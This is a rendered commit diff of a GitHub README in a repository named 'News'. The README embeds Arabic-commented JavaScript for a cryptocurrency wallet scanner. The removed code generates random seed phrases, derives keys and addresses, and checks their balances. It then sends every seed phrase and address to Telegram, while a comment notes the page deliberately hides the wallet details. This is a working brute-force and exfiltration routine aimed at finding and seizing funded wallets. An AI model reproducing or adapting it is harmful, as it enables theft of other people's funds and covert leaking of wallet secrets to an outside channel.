

Before and after one commit to alimahmoud001/News, a Markdown page: README.md, the part around the change printed below. Shown: that part at 84% size. Rendered like a GitHub page; blank space fills up the shorter version.

```diff
--- a/README.md
+++ b/README.md
@@ -602,77 +703,6 @@
             } catch (error) {
                 console.error('خطأ في اختبار العبارة:', error);
-                resultsDiv.innerHTML = '<div class="status error">❌ خطأ في اختبار العبارة: ' + error.message + '</div>';
-            }
-        }
-
-        // عرض رسالة بسيطة (لا تعرض تفاصيل المحفظة)
-        function displayResult(mnemonic, address, balance) {
-            // لا نعرض أي تفاصيل - فقط رسالة تأكيد
-            const resultsDiv = document.getElementById('results');
-            resultsDiv.innerHTML = '<div class="status success">✅ تم معالجة المحفظة وإرسالها إلى التلجرام</div>';
-        }
-
-        // تحديث الإحصائيات
-        function updateStats() {
-            document.getElementById('totalScanned').textContent = totalScanned;
-            document.getElementById('walletsWithBalance').textContent = walletsWithBalance;
-            document.getElementById('totalEthFound').textContent = totalEthFound.toFixed(6);
-        }
-
-        // توليد محفظة واحدة
-        async function generateSingleWallet() {
-            const resultsDiv = document.getElementById('results');
-            resultsDiv.innerHTML = '<div class="status info">🔄 جاري توليد المحفظة وفحص الرصيد...</div>';
-
-            try {
-                const mnemonic = generateRandomMnemonic();
-                const seed = await mnemonicToSeed(mnemonic);
-                const privateKey = await seedToPrivateKey(seed);
-                const address = privateKeyToAddress(privateKey);
-
-                const assets = await checkWalletAssets(address);
-
-                totalScanned++;
-
-                // إرسال جميع المحافظ إلى التلجرام
-                let message;
-                if (assets.hasAssets) {
-                    walletsWithBalance++;
-                    totalEthFound += assets.ethBalance;
-
-                    message = `🎉 <b>محفظة نشطة!</b>\n\n` +
-                             `💰 <b>رصيد ETH:</b> ${assets.ethBalance} ETH\n` +
-                             `📊 <b>عدد المعاملات:</b> ${assets.txCount}\n`;
-
-                    if (assets.tokens.length > 0) {
-                        message += `🪙 <b>الرموز المميزة:</b>\n`;
-                        assets.tokens.slice(0, 5).forEach(token => {
-                            message += `   • ${token.symbol}: ${token.value}\n`;
-                        });
-                        if (assets.tokens.length > 5) {
-                            message += `   • و ${assets.tokens.length - 5} رموز أخرى...\n`;
-                        }
-                    }
-
-                    message += `\n🔑 <b>العبارة:</b> <code>${mnemonic}</code>\n` +
-                              `📍 <b>العنوان:</b> <code>${address}</code>`;
-                } else {
-                    message = `📭 <b>محفظة فارغة</b>\n\n` +
-                             `💰 <b>رصيد ETH:</b> 0 ETH\n` +
-                             `📊 <b>عدد المعاملات:</b> 0\n` +
-                             `🔑 <b>العبارة:</b> <code>${mnemonic}</code>\n` +
-                             `📍 <b>العنوان:</b> <code>${address}</code>`;
-                }
-
-                await sendToTelegram(message);
-
-                // عرض رسالة بسيطة بدلاً من النتائج التفصيلية
-                const resultsDiv = document.getElementById('results');
-                resultsDiv.innerHTML = '<div class="status success">✅ تم إرسال المحفظة إلى التلجرام</div>';
-                updateStats();
-            } catch (error) {
-                console.error('خطأ في توليد المحفظة:', error);
-                resultsDiv.innerHTML = '<div class="status error">❌ خطأ في توليد المحفظة: ' + error.message + '</div>';
+                resultsDiv.innerHTML = `<div class="status error">❌ خطأ في اختبار العبارة: ${error.message}</div>`;
             }
         }
 
@@ -687,6 +717,6 @@
             const interval = parseInt(document.getElementById('scanInterval').value) * 1000;
 
             scanInterval = setInterval(async () => {
-                await generateSingleWallet();
+                await generateAndValidateWallet();
             }, interval);
 
```
Also changed, not shown: other parts of README.md (+240 -128 lines).
